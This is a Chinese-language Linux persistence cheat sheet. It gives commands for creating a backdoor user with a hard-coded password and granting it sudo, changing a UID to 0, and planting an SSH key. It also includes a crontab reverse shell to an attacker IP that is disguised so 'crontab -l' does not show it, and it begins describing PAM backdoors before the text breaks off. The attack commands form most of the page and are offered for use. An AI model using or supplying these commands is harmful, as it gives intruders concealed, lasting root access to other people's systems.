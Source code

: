> **如果系统不允许`uid=0`的用户（`root`）远程登录，可以添加一个普通用户，并将其加入sudoers**

**增加用户**

```bash
useradd phP		
echo @admin.886|passwd --stdin phP

#添加账户
#设置密码(密码符合要密码强度策略)
```

**修改sudoers赋予sudo权限**

```bash
chmod +w /etc/sudoers    
echo "phP ALL=(ALL) ALL" >> /etc/sudoers	
chmod -w /etc/sudoers

#赋予写入权限
#添加sudo用户
#撤销写入权限
```

或者还可以修改/etc/passwd文件，把用户uid改为0。

**SSH公钥无密码登录**

```bash
ssh-keygen -t rsa    #本机生成rsa公钥

#把id_rsa.pub写入服务端的authorized_keys中
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
echo "id_rsa.pub的内容" > ~/.ssh/authorized_keys

#没有这个文件的话，就自己创建一个
cd ~/
mkdir .ssh
cd .ssh
touch authorized_keys
```

**Crontab定时反弹shell**

```bash
(crontab -l;printf "*/1 * * * * exec 9<> /dev/tcp/攻击者IP/8888;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

#每分钟执行一次，并且crontab -l看不出来
#这种要用crontab -e 进去查看并编辑才能看到
```

**PAM后门**

>  **PAM （Pluggable Authentication Modules ）**是由Sun提出的一种认证机制。
>
>  它通过提供一些动态链接库和一套统一的API，将系统提供的服务和该服务的认证方式分开
>
>  使得系统管理员可以灵活地根据需要给不同的服务配置不同的认证方式，而无需更改服务程序
>
>  同时也便于向系统中添加新的认证手段
